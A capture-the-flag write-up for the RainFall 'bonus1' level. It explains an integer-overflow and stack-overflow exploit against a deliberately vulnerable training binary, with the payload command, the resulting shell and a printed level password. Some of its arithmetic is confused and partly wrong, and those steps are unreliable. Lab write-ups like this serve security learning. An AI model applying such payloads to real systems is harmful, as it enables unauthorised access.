

# bonus1

```sh
➜  ~ ssh bonus1@127.0.0.1 -p 4242
      _____       _       ______    _ _
     |  __ \     (_)     |  ____|  | | |
     | |__) |__ _ _ _ __ | |__ __ _| | |
     |  _  /  _` | | '_ \|  __/ _` | | |
     | | \ \ (_| | | | | | | | (_| | | |
     |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
bonus1@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$
```

```sh
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 '"One Piece Red" is the best One Piece movie obviously'
bonus1@RainFall:~$ ./bonus1 '"One Piece Red" is the best One Piece movie obviously' 'The Omatsuri Baron the second best'
bonus1@RainFall:~$ 
```



- 2 variables are declared in the stack: `char dest[40]` and `int v5`
- `v5` was attribued the value of `atoi(argv[1])`
- A condition checks if `v5` is strictly superior to `9`. If it is, the program returns `1`.
- It copy the second argument `argv[2]` in `dest` with `v5` multiply by 4 as the size of the copy.
- Then, it checks if the variable `v5` is strictly equal `1 464 814 662`. If it is, the program spawns a `shell`. Else, ot returns `0`.

# Vulnerability: <u>Stack Buffer Overflow Attack</u> and <u>Integer Overflow Attack</u>

The biggest difficulties here, is to find the perfetct number :
- A number strictly lower than `9`
- A number strictly equal to `1 464 814 662`

Simply, an **Integer Overflow** can be view when we see the kilometer counter of a car passing from `999 999` to `1 000 000`. The counter is reset to `0` and the car is still running. And a car never has a negative kilometer counter, it's absurd. It's the same with a computer **BUT**, it can interpret **implicitly** or **explicitly** a **<u>negative number</u>** depending on the context. And when a computer try to interpret a **negative number** or a **too large number** as an <u>unsigned integer</u>, it can lead to an **Integer Overflow**.

### We have different moment when the program interpret the value of `v5` :
- **First** : when it checks if `v5` is strictly superior to `9` ---> <u>**Implicitly** interpreted as a **signed integer**</u>
- **Second** : when it copy the second argument `argv[2]` in `dest` with `v5` multiply by 4 as the size of the copy ---> <u>**Explicitly** interpreted as an **unsigned integer**</u> because the third argument of the function `memcpy` is an `size_t` which is an `unsigned long`

By default, an interger is interpreted as a **signed integer**.

## _What's the difference between a signed and an unsigned integer ?_

1. **Signed integer** : can be **positive** or **negative**. The **most significant bit** is the **sign bit**. If the **sign bit** is **0**, the number is **positive**. If the **sign bit** is **1**, the number is **negative**. The **range** of a **signed integer** is **-2^(n-1) to 2^(n-1) - 1** where **n** is the number of bits.

Here's an exemple with a **signed integer** on **8 bits** :
```lua
+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 1
+---+---+---+---+---+---+---+---+
  ^
  |
  +--- **The significant bit** : 0 ---> Positive number

+---+---+---+---+---+---+---+---+
| 1 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = -1
+---+---+---+---+---+---+---+---+
  ^
  |
  +--- **The significant bit** : 1 ---> Negative number
```
In `8 bit`, the number `127` is the maximum positive number and `-128` is the minimum negative number.

2. **Unsigned integer** : can only be **positive**. The **most significant bit** is not the **sign bit**. The **range** of an **unsigned integer** is **0 to 2^n - 1** where **n** is the number of bits.

Here's an exemple with an **unsigned integer** on **8 bits** :
```lua
+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 1
+---+---+---+---+---+---+---+---+

+---+---+---+---+---+---+---+---+
| 1 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 129
+---+---+---+---+---+---+---+---+
```

## Knowing all that, we're going on step by step :

1. **<u>Finding the perfect number</u>** : A number lower than `9` when interpreted as a **signed integer** and equal to `1 464 814 662` when interpreted as an **unsigned integer**.
2. **<u>Finding the offset for the second argument</u>** : Don't forget we need to oveeflow the buffer `dest` to reach the `v5` variable.
3. **<u>Crafting the payload</u>** : The payload will be a concatenation of the perfect number and the offset.
4. **<u>The final payload</u>** : We will pass the payload

## 1. Finding the perfect number

It's not difficult, let's do some maths :
- We want a gigantic number. **Why ?** In 32 bits machine, an enormous number has the tendency to be interpreted as a **negative number** when it is interpreted as an **signed integer**. If you know how the the lifepoint of zombies [works in _Call of Duty World at War_ and _Black Ops 1_ in high rounds](https://www.youtube.com/watch?v=fCjXZAs7vQc), you know what I mean.
- Our gigentic  number will be `2^32` - `4` = **`4 294 967 292`**.
- We divide by `4`, multiply by `-1` for having a negative number to pass the first condition (`v4 > 9`) and substract by `13` for a marge ---> (`4 294 967 292` / `4`) * `-1` - `1` = **`-1 073 741 813`**.
- Verifications : `-1 073 741 813` * `4` = `-4 294 967 252`.
- And `-4 294 967 252`, interpreted as an `uint32_t`, become `4 294 967 244`.

> The function `memcpy`is protected by the **Buffer Overflow Attack** because the lenght is controlled. But here, it's us who control with the first argument we pass to the program. Normally, we pass the lenght of the buffer to copy for not overflow it. But here, we pass an excessive lenght and it lets us overflow the buffer `dest` above what it can contain. All we do, is to expand the limit to copy in the buffer `dest`, and lets us overflow the `buffer` and reach the `v5` variable (Reminder : `v5` is the second variable declared in the stack, we have `dest`and its size of `40`, THEN `v5`).

_I think, `4 294 967 244` is'nt enough to overflow the buffer..._

### We have our perfect number : `-1 073 741 813`.

## 2. Finding the offset for the second argument

Logically, the offset is the size of the buffer `dest` which is `40` bytes, and after the `v5` variable. So, the offset is `40` and the four next bytes are the value of the variable `v5`. We can also add the number to which we want `v5` to be equal to and enter in the `if` condition : the number `1 464 814 662`.

But we passed this number in hexadecimal : `0x574F4C46`, in little-endian it's `\x46\x4C\x4F\x57`.

### We have our offset : `40`. And the futur value of `v5` in hexadecimal : `\x46\x4C\x4F\x57`.

## 3. **Crafting the payload**

- First at all, we pass our perfect number `-1 073 741 813` in the first argument for all the reasons we already have announced.

```sh
-1073741813
```

- Seoncdly, we pass the offset `40` in the second argument for overflow the buffer `dest` and reach the `v5` variable.

```sh
-1073741813 $(python -c 'print "A" * 40')
```

- Finally, the value we want `v5` to be equal to by overflowing the buffer `dest` : `0x574F4C46` / `\x46\x4C\x4F\x57`.

```sh
-1073741813 $(python -c 'print "A" * 40 + "\x46\x4C\x4F\x57"')
```

### We have our payload ! ✅

## 4. The final payload

Let's try it right now :

```sh
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4C\x4F\x57"')
$ whoami
bonus2
$ 
```

# ZEEEEEHAHAHAHAHAHAHAHAHAHAHAHAHAHA

Let's get the flag :

```sh 
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```

And go to the next level !

```sh
bonus1@RainFall:~$ su bonus2
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$ 
```

# bonus1 complet !

